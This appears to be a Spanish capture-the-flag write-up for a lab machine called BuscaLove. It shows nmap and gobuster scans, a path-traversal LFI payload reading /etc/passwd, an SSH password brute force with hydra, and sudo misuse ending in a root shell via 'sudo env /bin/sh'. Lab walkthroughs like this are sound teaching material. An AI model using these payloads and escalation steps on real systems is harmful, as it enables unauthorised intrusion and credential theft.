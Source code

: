 Maquina: BuscaLove

Autor: Prendelo

Dificultad: Facil

ping 172.18.0.2 -c 1 

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.18.0.2 -vvv 

Vamos a la web y encontramos la pagina de apache2.

Realizamos un escaneo de directorios y encontramos un directorio llamado WordPress.

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.18.0.2

Al dirigirnos a esa dirección podemos ver que se trata de una página muy simple en la cual los enlaces no redireccionan a ninguna página.

Realizamos un escaneo para ver si encontramos algún archivo o carpeta, pero no obtenemos nada, solo sabemos que el index es index.php.

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.18.0.2

Probamos a realizar fuzzing para ver si es posible listar algún archivo. Como no sabemos que archivo encontrar nos apoyaremos del passwd y si lo encuentra podemos también saber que existe un posible LFI

Enviamos el comando y podemos observar que el parámetro es love.

wfuzz -c --hc=404,115 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../etc/passwd | grep -v 1040

Si ingresamos la URL en el navegador y vamos al view-source podemos observar con mayor facilidad el passwd.

view-source:http://172.18.0.2/wordpress/index.php?love=../../../../etc/passwd

No solo observamos que es posible un LFI, sino que también tenemos dos usuarios, rosa y pedro,

Aplicamos fureza bruta con hydra

hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -s 22 -t 64

encontramos en password: lovebug

Nos metemos por ssh con los credenciales encontrados

ssh rosa@172.18.0.2
lovebug

sudo -l

Tenemos dos binarios que nos pueden ser de utilidad, en el caso de ls nos permite listar archivos como root y usando cat de esta manera podemos leerlos.

sudo /usr/bin/ls /root

Haciendo uso de cat procedemos a leer el archivo y observamos que es un archivo al parecer en formato hexadecimal.

Copiamos este texto cifrado en la página de CyberChef y podemos observar que primero el texto estaba en formato Hexadecimal y luego en base 32, pero transformando ambos podemos observar que el texto era noacertarasosi.

Pobamos las credenciales encontradas con el usuario pedro.

su pedro
noacertarasosi

sudo -l

sudo env /bin/sh

whoami




